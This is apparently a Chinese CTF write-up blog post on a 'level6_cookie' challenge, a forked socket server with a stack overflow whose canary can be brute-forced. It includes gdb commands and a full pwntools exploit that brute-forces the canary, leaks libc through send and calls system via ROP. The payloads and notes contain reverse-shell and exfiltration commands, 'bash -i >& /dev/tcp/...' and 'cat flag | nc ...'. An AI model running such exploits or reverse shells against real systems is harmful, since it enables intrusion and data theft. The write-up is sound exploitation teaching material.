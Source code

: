 ```yaml
---
layout: post
title: "cookie爆破"
date: 2018-07-6
categories: jekyll update
---
```

### level6_cookie


这是一个简单的**socket服务器栈溢出**的题目
##### 溢出漏洞点
<img src="/images/posts/keen/level6/1530851457324.png" >

**特点：fork子程序，从同一片内存申请，cookie值一样，可以爆破**

**这里本地调试需要先创建一个具有root权限的level6，然后用该用户来执行该程序，注意这里需要先起一个服务器，然后再nc连上去进行调试**

##### 一些小知识点和疑问
```
TCP反连；nc反弹shell：cat flag | nc xxx.xxx.xx.xx 8888
关于反弹shell的一些资料参考：
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.gnucitizen.org/blog/reverse-shell-with-bash/
疑问：为什么cookie会距离ebp有12byte这么远？
尝试解答：是不是这个ebp是主函数main的，而不是子函数的。所以中间还隔了一个子函数的ebp
SIGCHLD
进程Terminate或Stop的时候，SIGCHLD会发送给它的父进程。缺省情况下该Signal会被忽略
```

##### 调试用到的命令：
```
print system #看泄露出来的地址是否与链接库的地址相同
info proc   #查看进程号
cat /home/level6/9441/fd  #查看fd可能的值(标准输入/出和默认值)
ROPgadget --binary cookie #查找ROP
ps -aux | grep cookie #查看当前运行进程
info proc all  #查看一些程序运行的信息
set follow-fork-mode child  #fork之后调试子进程，父进程不受影响。
上面一条命令参考链接：https://www.ibm.com/developerworks/cn/linux/l-cn-gdbmp/index.html
```
##### 做题过程中遇到的问题和解决办法
+  对C语言写的socket不熟悉，需要去了解其中的流程(但其实对解题没太大的影响)
+  主要是这里用到了fork子进程来进行执行输入的，所以每次输入都会从同一个内存片段去取cookie(只要这个进程没断就是从同一片内存中取值)
+  一段时间没做题，调试起来有点生疏，调试的时候注意考虑下断点的位置，然后逐步ni单步查看执行的整个流程是否符合我们设置的跳转
+  这次调试不出来主要是参数个数问题，c语言里面没有默认参数为0这个说法，需要查好调用每一个函数的参数个数和值进行一一配置。
+  不必要的send多次payload可以通过ROP连接起来，灵活利用，灵活操作。

##### 本题主要思路
+ 配置好本地调试的服务器环境(具有root权限的level6)
+ 爆破cookie
+ 确定溢出位置和溢出长度
+ 泄露send地址
+ 确定下断点位置：0x08048C47进行调试
+ 找到一个可写的地址，通过recv接收数据写到那个地址上，再把该地址作为参数给到system来调用即可getshell

##### 具体详细代码
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'

IP = '192.168.210.11'
#IP = '192.168.23.130'
PORT = 10006
NORMAL_RET_ADDR = 0x804897b
TEST_FINI = 0x8048fc0

canary = "\x00"
padding = "a"*64
"""
for x in xrange(3):
    for y in xrange(256):
        with remote(IP, PORT) as p:
            if y == 10:
                continue
            p.send(padding+canary+chr(y) + chr(10))
            try:
                info = p.recvuntil('GoodBye')
		p.close()
		break
            except Exception as e:
                print('exception %s' % e)
		p.close()
                continue
    print('got single byte %x' % y)
    canary += chr(y)
print "cookie bruteforce complete with cookie = " + hex(u32(canary))
"""
canary = p32(0xb28dff00)
#canary = p32(0xc6586e00)
p = remote(IP, PORT)
libc = ELF('libc.so.6')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('cookie')
send_plt = elf.plt['send']
send_got = elf.got['send']
vuln_addr = 0x0804897B
payload1 = 'a'*64 + canary +'a'*12 + p32(send_plt) + p32(0) + p32(4) + p32(send_got) + p32(4) + p32(0)
p.sendlineafter('Would you like some cookie?\n', payload1)
#0xb7587000
#p.recvline()
#p.recv()
recved = p.recv()
#print(recved)
print(len(recved))
send_addr = u32(recved)
p.info('send addr %x' % send_addr)

libc_base = send_addr - libc.symbols['send']
p.info('libc base %x' % libc_base)

system_addr = libc_base + libc.symbols['system']
system_cmd = 'ls'
p.info('system addr %x' % system_addr)
recv_plt = elf.plt['recv']
writable_addr = 0x804b07c

p = remote(IP, PORT)
pause()
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(system_addr) + p32(4) + p32(writable_addr) + p32(100) + p32(0)
'''
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(0x08048fb8) + p32(4) + p32(writable_addr) + p32(100) + p32(0) + p32(system_addr) + p32(0) + p32(writable_addr)
'''
p.sendlineafter('Would you like some cookie?', payload2)
p.send('cat flag | nc xxx.xxx.xx.xx 8888'.ljust(100, '\x00'))


payload3 = 'a' * 64 + canary + 'a' * 12 + p32(system_addr) + p32(0) + p32(writable_addr)
p.info('system %x' % system_addr)
p.close()
p = remote(IP, PORT)
p.sendlineafter('Would you like some cookie?', payload3)
#p.interactive()

```